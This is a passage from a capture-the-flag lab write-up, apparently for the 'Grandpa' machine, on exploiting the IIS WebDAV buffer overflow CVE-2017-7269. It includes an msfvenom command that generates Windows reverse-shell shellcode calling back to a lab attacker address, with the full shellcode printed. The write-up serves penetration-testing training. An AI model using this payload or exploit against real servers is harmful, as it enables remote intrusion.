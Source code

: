 
## Shell as network service

### Select Vulnerability

The most interesting vulnerability in the list from `searchsploit` was `WebDAV
'ScStoragePathFromUrl' Remote Buffer Overflow`. It matches the version of
Grandpa, it provides remote code execution. Also, I’ll note that the `nmap`
WebDAV scan returned a bunch of info, and this is an exploit against WebDAV.

I’ll use `searchsploit -x windows/remote/41738.py` to examine the exploit
code. It creates a payload that is modeled after an HTTP request, and includes
shellcode to launch `calc.exe`.

Some Googling shows this is [CVE-2017-7269](https://cve.mitre.org/cgi-
bin/cvename.cgi?name=CVE-2017-7269), which has many public exploit scripts
available.

### Update Shellcode - Fail

A very common thing in OSCP is finding an exploit script like this, and
needing to modify it to put in your own shellcode to get a shell. I’ll use
`msfvenom` to create the shellcode:

    
    
    root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.47 LPORT=443 -f python -v shellcode
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 324 bytes
    Final size of python file: 1823 bytes
    shellcode =  b""
    shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0"
    shellcode += b"\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b"
    shellcode += b"\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61"
    shellcode += b"\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2"
    shellcode += b"\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11"
    shellcode += b"\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3"
    shellcode += b"\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6"
    shellcode += b"\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
    shellcode += b"\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b"
    shellcode += b"\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
    shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24"
    shellcode += b"\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
    shellcode += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
    shellcode += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff"
    shellcode += b"\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
    shellcode += b"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40"
    shellcode += b"\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
    shellcode += b"\x6a\x05\x68\x0a\x0a\x0e\x2f\x68\x02\x00\x01"
    shellcode += b"\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74"
    shellcode += b"\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75"
    shellcode += b"\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d"
    shellcode += b"\x64\x00\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12"
    shellcode += b"\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01"
    shellcode += b"\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
    shellcode += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc"
    shellcode += b"\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
    shellcode += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2"
    shellcode += b"\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
    shellcode += b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f"
    shellcode += b"\x6a\x00\x53\xff\xd5"
    